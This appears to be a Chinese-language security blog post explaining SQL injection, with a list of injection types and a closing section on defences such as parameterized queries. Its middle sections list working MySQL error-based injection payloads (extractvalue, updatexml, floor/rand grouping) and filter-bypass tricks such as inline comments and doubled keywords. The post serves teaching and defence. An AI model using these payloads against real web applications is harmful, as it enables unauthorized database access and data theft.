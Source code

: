 ```yaml
---
layout: post
title:  SQL注入原理
date: 2021-07-01 17:57 +0900
category: penetration-theory
---
```

<!-- TOC -->

- [0x0 WHY-为什么会有SQL注入](#0x0-why-为什么会有sql注入)
- [0x1 WHAT-什么是SQL注入](#0x1-what-什么是sql注入)
- [0x2 HOW-如何利用SQL注入](#0x2-how-如何利用sql注入)
  - [0x2.1 SQL注入分类](#0x21-sql注入分类)
  - [0x2.2 注入检测](#0x22-注入检测)
  - [0x2.3 绕过技巧](#0x23-绕过技巧)
  - [0x2.4 常见payload](#0x24-常见payload)
- [0x3 防护手段](#0x3-防护手段)

<!-- /TOC -->
## 0x0 WHY-为什么会有SQL注入

&nbsp;&nbsp;&nbsp;&nbsp;**网站开发者没有对涉及到SQL查询的语句做过滤，导致用户可以构造恶意查询语句进行查询，从而获取一些不合法的信息**  
## 0x1 WHAT-什么是SQL注入
&nbsp;&nbsp;&nbsp;&nbsp;**SQL注入是一种代码注入技术，用于攻击数据驱动的应用程序。 在应用程序中，如果没有做恰当的过滤，则可能使得恶意的SQL语句被插入输入字段中执行（例如将数据库内容转储给攻击者）**

## 0x2 HOW-如何利用SQL注入

### 0x2.1 SQL注入分类

1. 字符型注入
2. 数字性注入
3. 报错注入
4. 盲注
   - 基于时间
   - 布尔盲注
5. 堆叠注入

### 0x2.2 注入检测

- 模糊检测
  1. `1/1`
  2. `' "`
  3. `" and "1"="1`
  4. `<< >> || | & &&`
  5. `+ - ^ * % /`
- 报错注入
  1. `select 1/0`
  2. `select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from  information_schema.tables group by x)a`
  3. `extractvalue(1, concat(0x5c,(select user())))`
  4. `updatexml(0x3a,concat(1,(select user())),1)`
  5. `exp(~(SELECT * from(select user())a))`
  6. `ST_LatFromGeoHash((select * from(select * from(select user())a)b))`
  7. `GTID_SUBSET(version(), 1)`

### 0x2.3 绕过技巧

- 编码绕过
  1. `大小写`
  2. `url编码`
  3. `html编码`
  4. `十六进制编码`
  5. `unicode编码`
- 注释
  1. `// -- -- + -- - # /**/ ;%00`
  1. `内联注释用的更多，它有一个特性 /!**/ 只有MySQL能识别`
  1. `e.g. index.php?id=-1 /*!UNION*/ /*!SELECT*/ 1,2,3`
- 重写
  1. `union => ununionion`
- 替换
  1. `substring / mid / sub`
  2. `ascii / hex / bin`
  3. `benchmark / sleep`
  4. `user() / @@user`
  5. `and / &`
  6. `or / |`

### 0x2.4 常见payload

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[更多请点击此处](https://websec.readthedocs.io/zh/latest/vuln/sql/cheatsheet/mssql.html)


## 0x3 防护手段

1. 所有的查询语句都使用数据库提供的参数化查询接口，参数化的语句使用参数而不是将用户输入变量嵌入到 SQL 语句中。
2. 过滤危险的 SQL 语句关键字。
3. 确认每种数据的类型。
4. 数据长度应该严格规定。
5. 网站每个数据层的编码统一。